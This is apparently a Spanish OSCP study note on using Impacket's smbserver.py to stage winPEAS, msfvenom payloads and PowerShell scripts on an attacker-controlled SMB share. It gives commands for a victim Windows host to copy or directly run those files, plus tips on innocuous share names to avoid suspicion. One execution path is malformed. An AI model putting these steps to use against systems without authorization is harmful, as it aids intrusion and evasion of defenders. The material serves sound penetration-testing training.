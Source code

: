 `smbserver.py` es una utilidad de Impacket que permite levantar un servidor SMB temporal desde Kali Linux. Muy útil en OSCP para compartir binarios, DLLs o scripts con la máquina víctima sin requerir instalación adicional del lado del atacante.

---

## Instalación (si no lo tienes)

```bash
sudo apt install impacket-scripts
```

O con pip:
```bash
pip install impacket
```

---

## Uso básico

Crea un directorio con los archivos que deseas compartir:
```bash
mkdir smbshare
cp winPEAS.exe smbshare/
```

Inicia el servidor SMB:
```bash
sudo smbserver.py -smb2support SHARE smbshare/
```

- `SHARE` es el nombre del recurso compartido SMB
- `smbshare/` es el path local al directorio compartido

---

## Acceder desde Windows víctima

### Desde PowerShell o cmd:
```powershell
copy \\<tu_ip>\SHARE\winPEAS.exe .
```

### Ejecutar directamente desde red (sin copiar):
```powershell
\<tu_ip>\SHARE\script.ps1
```

---

## Casos de Uso OSCP

- Compartir `winPEAS.exe`, DLLs, payloads de `msfvenom`, scripts `.ps1`
- Evitar servidores HTTP si el puerto 80 está filtrado
- Acceder a archivos sin descargar explícitamente (ejecución remota directa)

---

## Buenas Prácticas

- Usar `-smb2support` para mejorar compatibilidad
- Evitar nombres de share sospechosos (usa cosas como `logs`, `backup`, etc.)
- Detener el servidor cuando ya no se use

---
